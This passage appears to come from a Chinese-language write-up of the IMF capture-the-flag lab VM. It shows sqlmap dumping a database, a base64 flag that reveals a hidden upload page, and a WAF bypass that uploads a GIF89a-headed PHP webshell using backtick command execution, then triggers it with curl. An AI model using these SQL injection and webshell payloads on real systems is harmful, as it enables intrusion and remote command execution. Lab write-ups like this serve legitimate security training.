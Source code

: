 点击IMF CMS进入：http://10.211.55.36/imfadministrator/cms.php?pagename=home

用burpsuite拦截流量包，右键点击：copy to file 保存到本地1.txt文本中！

8、sql注入

sqlmap -r 1.txt

sqlmap -r 1.txt --dump   ----可以获取数据库，但是无法获取shell
--dump:导出列里面的字段

获得两段信息：
./images/whiteboard.jpg
./images/redacted.jpg

http://10.211.55.36/imfadministrator/images/whiteboard.jpg
发现张图，图片左下角有二维码：微信扫码
flag4{dXBsb2Fkcjk0Mi5waHA=}
解码：uploadr942.php


9、文件上传-webshell

http://10.211.55.36/imfadministrator/uploadr942.php
该页面存在上传文件！

经过尝试允许上传jpg、png、gif
但是存在waf，利用双扩展名或空字符都无法绕过waf

参考文章：
https://stackoverflow.com/questions/3597082/how-is-a-website-hacked-by-a-maliciously-encoded-image-that-contained-a-php-scr

通过插入GIF89a十六​​进制标头并附加，WAF没有发现为恶意的php代码来创建一个gif文件。

-----------------
---方法1：
这里按照文章方法，然后双引号、单引号都无法利用绕过waf，这里参考文章：
https://blog.csdn.net/vspiders/article/details/70162604
反引号中，变量转义作为shell命令被执行！

GIF89a
<?php echo `id`; ?>     ----对应998f21dbfbe3
回显：File successfully uploaded.  成功绕过waf！

访问：
curl http://10.211.55.36/imfadministrator/uploads/dfd51a9eaf43.gif

-------
接下来使用echo和print加反引号来写入一句话，绕过waf：

GIF89a 
<?php echo `id`); ?>

GIF89a      
<?php $dayu=$_GET['dayu']; print(`$dayu`); ?>

或者：<?php $dayu=$_GET['dayu']; echo `$dayu`; ?>

curl http://10.211.55.36/imfadministrator/uploads/bf12807d791f.gif?dayu=id
这时候正常访问id输出信息！
